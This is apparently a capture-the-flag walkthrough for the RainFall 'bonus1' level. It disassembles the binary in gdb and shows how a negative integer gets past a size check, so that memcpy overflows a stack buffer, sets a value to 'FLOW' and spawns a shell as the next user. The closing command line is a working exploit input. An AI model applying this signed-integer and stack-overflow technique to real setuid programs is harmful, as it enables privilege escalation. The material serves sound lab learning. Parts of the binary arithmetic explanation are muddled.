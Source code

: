 # Bonus1

we start our reverse by gdb bonus and disass the main function

```c
Dump of assembler code for function main:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	and    esp,0xfffffff0
   0x0804842a <+6>:	sub    esp,0x40
   0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:	add    eax,0x4
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:	add    eax,0x8
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    eax,0x0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
```

after they set the $esp $ebp they pass the av[1] to the function atoi as we know atoi toke a string as params and return int and if _the string empty return 0_

```c
   0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:	add    eax,0x4
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
```

after call atoi store the return value in `[esp+0x3c]` and then check if this value lower or equal to 0x9 = 9 ifnot return 1 and leave

```c
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
```

else if the `[esp+0x3c] <= 9` multiply this value \* 4 and store it into `ecx` this the size of memcpy they copy into `esp+0x14` av[2] `memcpy(esp + 0x14, av[2], ecx)`

```c
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:	add    eax,0x8
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
```

after that they compare esp+0x3c with 0x574f4c46 = "FLOW" if is equal they call exec('/bin/bash')

we add a break point in `<+84>` to understand what happend in memory we run our program

> r 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```c
0xbffff6a4:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6b4:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6c4:	0x41414141	0x080484b9	0x00000009	0x080484b0
                                        ^
                                        |
            this the value return of atoi which is must be equal to 'FLOW'
            So we need to fill more memory to override this value more 8 char
```

in the line <+47> we have `<< 2` we need more 8 char, the size of memcpy atoi(av[1]) \* 4 that's mean we need to enter 11 cause 11 \* 4 = 44 characters

> 11 decimal = 00000000000000000000000000001011 we complete with 16 zero we work in 32 bits

we cant pass 11 because they check if the value <= 9 and but we can enter -11 😉 we just need to change the value which mean the sign the first value in the binary

> -11 = 10000000000000000000000000001011 decimal => -2147483637

with shifting << 2

```
    10 00 00 00 00 00 00 00 00 00 00 00 00 00 10 11 << 2

    10 00 00 00 00 00 00 00 00 00 00 00 00 00 10 11
     ^                                              ^
     |                                              |
we remove this                              we add 00 here

result is  : 00 00 00 00 00 00 00 00 00 00 00 00 00 10 11 00  = 44

```

```c
bonus1@RainFall:~$ ./bonus1 -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW
$ whoami
bonus2
$
```
